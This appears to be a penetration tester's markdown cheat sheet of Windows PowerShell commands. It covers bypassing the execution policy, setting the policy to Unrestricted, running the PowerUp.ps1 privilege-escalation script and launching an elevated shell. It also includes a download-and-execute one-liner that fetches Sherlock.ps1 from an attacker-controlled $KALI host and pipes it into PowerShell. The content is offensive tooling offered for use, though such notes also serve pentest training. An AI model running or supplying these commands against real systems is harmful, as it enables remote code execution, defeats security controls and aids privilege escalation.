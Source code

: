 [[rlwrap]]

#### Execution bypass
```powershell - windows
powershell -ep bypass
```

If shell gets stuck here, you can still run PowerShell files like this:

```powershell - windows
powershell -ep bypass .\PowerUp.ps1
```

### SET EXECUTION ON

#### 1st method
```powershell - windows
powershell Get-ExecutionPolicy
```

```powershell - windows
powershell Set-ExecutionPolicy Unrestricted
```

```powershell - windows
powershell Get-ExecutionPolicy
```

#### 2nd method
```powershell - windows
powershell Get-ExecutionPolicy -Scope CurrentUser
```

```powershell - windows
powershell Set-ExecutionPolicy unrestricted -Scope CurrentUser
```

```powershell - windows
powershell Get-ExecutionPolicy -Scope CurrentUser
```

#### Download and execute form CMD
```command prompt - windows
echo IEX(New-Object Net.WebClient).DownloadString('http://$KALI:80/Sherlock.ps1') | powershell -noprofile -
```

RDP - Run PowerShell as Admin
```powershell - windows
start-process powershell -verb runas
```
